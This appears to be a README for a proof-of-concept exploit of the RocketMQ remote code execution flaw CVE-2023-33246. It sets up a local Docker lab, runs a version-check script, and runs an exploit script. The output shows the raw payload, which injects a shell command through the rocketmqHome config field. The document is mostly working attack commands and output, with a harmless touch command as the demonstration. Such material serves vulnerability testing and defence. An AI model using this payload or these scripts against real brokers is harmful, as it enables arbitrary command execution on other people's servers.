

## RocketMQ RCE (CVE-2023-33246)

### Build the lab

```bash
$ docker-compose -f lab/docker-compose.yml up --build -d

[+] Running 2/2
 ✔ Container rmqnamesrv  Started
 ✔ Container rmqbroker   Started 
```

### Using the scripts

```bash
$ python3 check.py 127.0.0.1 9876

Broker address: 127.0.0.1:10911
Broker version: V4_9_5
```

```bash
$ python3 exploit.py 127.0.0.1 10911 'touch /tmp/poc_succeed'

b'\x00\x00\x00\xac\x00\x00\x00`{"code":25,"flag":0,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}filterServerNums=1\nrocketmqHome=-c $@|sh . echo touch /tmp/poc_succeed;\n'
b'\x00\x00\x00c\x00\x00\x00_{"code":0,"flag":1,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}'
```


